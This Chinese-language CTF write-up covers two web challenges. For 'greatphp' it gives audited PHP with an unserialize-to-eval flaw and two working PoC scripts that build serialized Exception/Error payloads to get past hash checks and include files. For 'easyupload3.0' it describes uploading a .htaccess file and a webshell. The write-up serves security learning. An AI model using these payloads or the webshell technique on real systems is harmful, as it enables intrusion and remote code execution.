





## [极客大挑战 2020] greatphp

> 题目描述:  
> 1.md5(sha1) a string, an array, or?
> 2.End the past and create a new phpcode!

### 代码审计

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    // 反序列化时调用
    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
            // 一处哈希函数的 bypass
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                // ban 了<?php, (, ), ", ', 注意没有开启忽略大小写
                // 注意 eval(code) 中的内容应该符合 php 语法
                eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

### 哈希强比较绕过

#### 魔法函数尝试

构造 payload, 首先是绕过哈希强比较, 这里不能直接简单的传入两个数组, 因为稍后 syc 会拿去 `eval()`, 必须传入一个字符串;

> 思考了一下, 可以用类似的方法, 如果数组不行的话, 可以考虑用对象来完成, 把 `$this->syc` 和 `$this->lover` 传入为两个不同的对象, 同时给两者加一个 **`__toString()` 魔法函数**让他们满足哈希强比较; 同时调整这个魔术方法来 bypass;
> 不过这个方式需要寻找其他的已经定义了 **`__toString()` 魔法函数**的方法来进行调用, 因为序列化时不会把内置魔法函数存进去;

#### 原生类绕过

在 php 中, 存在**特殊的异常类**, 例如 Exception / Error 类, 这两种类会 **自带一个 `__toString()`** 魔法函数;

php 源码中这个 Exception 类的定义:

```php
public Exception::__construct(
    // 异常文本信息, __toString(), getMessage() 的结果
    string $message = "",
    // (int) 异常代码值, 
    int $code = 0,
    ?Throwable $previous = null
)
```

### 解法1: include 变量可以不用引号

这里用到的核心是, php 中 `include` 一个变量值, 是**不需要引号的**; 也就是可以用 `include $_GET[_];` 这种形式, 并且虽然 ban 了 `<?php`, 但是没有 ban `<?=`, 完全不影响结果;

PoC:
```php
<?php

class SYCLOVER {
    public $syc;
    public $lover;
}

$payload = '?><?= include $_GET[_]; ?>';
$a=new Exception($payload,1);$b=new Exception($payload,2);

$s = new SYCLOVER();
$s->syc = $a;
$s->lover = $b;
var_dump(urlencode(serialize($s)));
```

> 注意要用单引号, 否则 `$` 会被解析;

然后传入 `123=./flag`:



### 解法2: 取反 + 报错

取两次反就可以了, 由于序列化这里的结果也是不含引号的;

PoC:

```php
<?php
class SYCLOVER {
    public $syc;
    public $lover;
 
    public function __construct($b,$c){
        $this->syc = $b;
        $this->lover = $c;
    }
}
$in = ~("/flag");
$payload = "?><?=include~".$in."?>";
$b = new error($payload,1);$c=new error($payload,2);
$a = new SYCLOVER($b,$c);
echo(urlencode(serialize($a)));
?>
```

> 踩坑: 注意 php 文件路径不能含有被 waf 掉的字符, 比如这里就是括号;



## [SWPUCTF 2021 新生赛]easyupload3.0

### 题解

一个文件上传界面, 传 php 文件被 waf, 传 .htaccess 通过;





蚁剑连上 webshell;

flag 在 `/proc/self/environ` 里:

